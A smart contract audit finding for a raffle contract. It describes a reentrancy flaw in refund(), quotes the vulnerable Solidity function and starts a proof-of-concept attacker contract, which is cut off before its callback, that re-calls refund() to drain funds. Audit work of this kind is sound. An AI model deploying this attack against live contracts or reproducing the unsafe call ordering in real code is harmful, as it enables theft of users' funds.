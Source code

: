 # PuppyRaffle Smart Contract Security Audit

## [High Severity] [High Severity] Reentrancy in refund() Due to Improper State Ordering

### Description 

The `refund` function sends funds to `msg.sender` before updating the contract state. This violates the Checks-Effects-Interactions pattern, leaving the contract vulnerable to reentrancy attacks. A malicious contract could repeatedly call `refund()` before the players array is updated, draining all funds.

```solidity
function refund(uint256 playerIndex) public {
    address playerAddress = players[playerIndex];
    require(playerAddress == msg.sender, "Only the player can refund");
    require(playerAddress != address(0), "Already refunded or inactive");

    payable(msg.sender).sendValue(entranceFee); // 🔴 External call before state change
    players[playerIndex] = address(0);
    emit RaffleRefunded(playerAddress);
}
```

### Impact

- **Loss of Funds**: Malicious actors can recursively trigger refund() to empty the contract balance.
- **Loss of trust**: Users may lose confidence in the raffle due to exploitability.

### Proof of Concept

If a malicoius actor deploys their own contract that can use `enterRaffle` during reentrancy, they can drain all funds from the `Raffle` smart contract.
To replicate this attack, add the `MalicousAttack` smart contract to the `PuppyRaffleTest` and run the test provided below.

``` solidity
contract ReentrancyAttack {
    PuppyRaffle public puppyRaffle;
    uint256 entranceFee;
    uint256 attackerIndex;

    constructor(address _puppyRaffle) {
        puppyRaffle = PuppyRaffle(_puppyRaffle);
        entranceFee = puppyRaffle.entranceFee();
    }

    function attack() external payable {
        address[] memory players = new address[](1);
        players[0] = address(this);
        puppyRaffle.enterRaffle{value: entranceFee}(players);
        attackerIndex = puppyRaffle.getActivePlayerIndex(address(this));
        puppyRaffle.refund(attackerIndex);
    }

    function _stealFunds() internal {
        uint256 balance = address(puppyRaffle).balance;
        if (balance > 0) {
            puppyRaffle.refund(attackerIndex);
        }
    }

```